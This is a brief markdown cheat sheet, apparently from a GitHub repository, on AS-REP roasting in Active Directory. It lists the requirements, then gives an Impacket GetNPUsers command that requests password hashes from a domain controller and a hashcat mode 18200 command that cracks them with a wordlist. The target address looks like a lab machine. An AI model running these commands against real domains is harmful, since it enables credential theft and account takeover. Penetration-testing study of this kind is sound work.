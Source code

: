 # Requirements:

1. List of valid users.
2. A user accounts should have the pre-authentication option disabled.

## Impacket
```bash
impacket-GetNPUsers DomainName/ -usersfile real_users -dc-ip 10.10.10.161 -request -format hashcat
```

## Cracking with hashcat
```bash
hashcat -m 18200 hash.txt ~/wordlists/rockyou.txt
```
